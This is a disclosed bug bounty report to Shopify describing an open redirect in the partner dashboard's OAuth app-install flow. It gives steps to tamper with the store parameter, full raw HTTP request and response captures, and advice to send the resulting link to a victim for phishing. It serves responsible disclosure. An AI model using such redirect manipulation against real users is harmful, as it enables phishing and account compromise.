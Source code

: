 # Open redirection in OAuth

## Report Details
- **Report ID**: 405697
- **URL**: https://hackerone.com/reports/405697
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-09-05T02:13:24.855Z
- **Disclosed**: 2018-09-24T18:01:16.797Z

## Reporter
- **Username**: dr_dragon
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
#steps to reproduce:
1-Open your shopify partner account.
2-Create an app and click on test your app.
3-Select a development store you own.
4-Intercept the request using burpsuite and change the "install_app[Select a store]" parameter to any store  with no validation.

The request like this:
```
POST /526915/apps/2544979/install_on_dev_shop HTTP/1.1
Host: partners.shopify.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://partners.shopify.com/526915/apps/2544979
Content-Type: application/x-www-form-urlencoded
Content-Length: 187
Cookie: last_shop=mido-2.myshopify.com; optimizelyEndUserId=oeu1536089316039r0.9037032785131875; _y=a60f12ee-9E2A-4EB5-93DA-34EC09FA1A95; _shopify_y=a60f12ee-9E2A-4EB5-93DA-34EC09FA1A95; _shopify_fs=2018-09-04T19%3A28%3A36.510Z; _ga=GA1.2.a60f12ee-9E2A-4EB5-93DA-34EC09FA1A95; _gid=GA1.2.352493204.1536089321; _ceg.s=pek3q2; _ceg.u=pek3q2; __hstc=138892268.672c096176060d98d2c72b786b0c0116.1536089327774.1536094057487.1536106976076.3; hubspotutk=672c096176060d98d2c72b786b0c0116; __utma=262205262.672852694.1536089354.1536089354.1536096223.2; __utmz=262205262.1536096223.2.2.utmcsr=partners.shopify.com|utmccn=(referral)|utmcmd=referral|utmcct=/; master_device_id=6b415960-b260-4a0a-a281-5c9b4be57c37; __hssrc=1; _partners_session=6cc122023cd45fc2becb197861cfd156; __utmc=262205262; __hssc=138892268.1.1536106976076
Connection: keep-alive
Upgrade-Insecure-Requests: 1

utf8=%E2%9C%93&authenticity_token=dO84UJSGLnRDTF3yLennlB1esNOx0SxdN0WJSGY8e%2F%2FquALL%2BQSBxb%2ByPgiyxRtoS8aCgQ83x33JxPAmrbHYdA%3D%3D&install_app%5BSelect+a+store%5D=$$.myshopify.com
```

The response like this :
```
HTTP/1.1 302 Found
Server: nginx/1.15.2
Date: Wed, 05 Sep 2018 01:01:51 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: strict-origin-when-cross-origin
Location: https://$$.myshopify.com/admin/oauth/redirect_from_partners_dashboard?client_id=04d42319b01049853db0281e6e68b0ea&signature=eyJleHBpcmVzX2F0IjoxNTM2MTA5NjExLCJwZXJtYW5lbnRfZG9tYWluIjoibWlkby0yLm15c2hvcGlmeS5jb20iLCJjbGllbnRfaWQiOiIwNGQ0MjMxOWIwMTA0OTg1M2RiMDI4MWU2ZTY4YjBlYSJ9--6b2892e6e4e0d4eea6ffad3ff5683f3aac2b61bb
X-Robots-Tag: none
Cache-Control: no-cache
X-Request-Id: e4c2d9e3a7f47203a309afb03f731b38
X-Runtime: 0.368401
Strict-Transport-Security: max-age=63072000; includeSubDomains; preload
X-Dc: gke
X-Dc: gke
Content-Length: 391

<html><body>You are being <a href="https://$$.myshopify.com/admin/oauth/redirect_from_partners_dashboard?client_id=04d42319b01049853db0281e6e68b0ea&amp;signature=eyJleHBpcmVzX2F0IjoxNTM2MTA5NjExLCJwZXJtYW5lbnRfZG9tYWluIjoibWlkby0yLm15c2hvcGlmeS5jb20iLCJjbGllbnRfaWQiOiIwNGQ0MjMxOWIwMTA0OTg1M2RiMDI4MWU2ZTY4YjBlYSJ9--6b2892e6e4e0d4eea6ffad3ff5683f3aac2b61bb">redirected</a></body></html>
```
5-Copy this link between <a> tages and give it to the victim.
6-The victim will redirect :).

## Impact

Attacker can phish users.

## Attachments
No attachments
